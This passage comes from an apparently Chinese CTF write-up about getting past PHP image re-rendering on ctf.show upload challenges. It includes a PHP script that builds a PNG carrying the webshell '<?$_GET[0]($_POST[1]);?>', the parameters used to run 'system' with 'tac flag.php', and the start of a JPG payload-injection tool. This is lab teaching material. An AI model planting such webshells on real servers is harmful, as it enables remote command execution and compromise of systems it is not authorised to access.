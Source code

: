 ```plain
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'2.png');  //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */

?>

访问这个文件，就可以进行生成2.png
访问：http://127.0.0.1:8081/web/ercixuanran.php，生成2.png,上传2.png
```

![1645510499194-2713184f-4987-488c-aa31-d462ab41d8da.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170958292-1762340964.png)

```plain
上传png，地址：http://39b22f8f-3944-4773-a9cd-ecb290a41f64.challenge.ctf.show/download.php?image=fb5c81ed3a220004b71069645f112867.png
然后进行传参：
0=system
1=tac flag.php
```

![1645510768082-125fa18d-a1cd-40eb-9cab-5b5eee0ec823.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170959179-1181821411.png)

165

```plain
这个是jpg前端验证，是jpg的二次渲染
<button type="button" class="layui-btn" id="upload" lay-data="{url: 'upload.php', accept: 'images',exts:'jpg'}">

上传正常的图片，路径：http://4b36fbb6-67f1-4b47-9356-152a44237d69.challenge.ctf.show/download.php?image=1167610aa17b0813233fe82d99403e41.jpg
也是属于文件包含这种图片。
```

![1645511473515-a9d71982-b921-49c5-86f4-0b0ff18e33f2.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170959113-620851394.png)

```plain
发现也是对图片进行处理了一写。图片大小，代码都有处理。
先上传图片，然后下载图片，对下载的图片进行代码修改。
工具代码：
<?php
    /*
    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.
    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>
```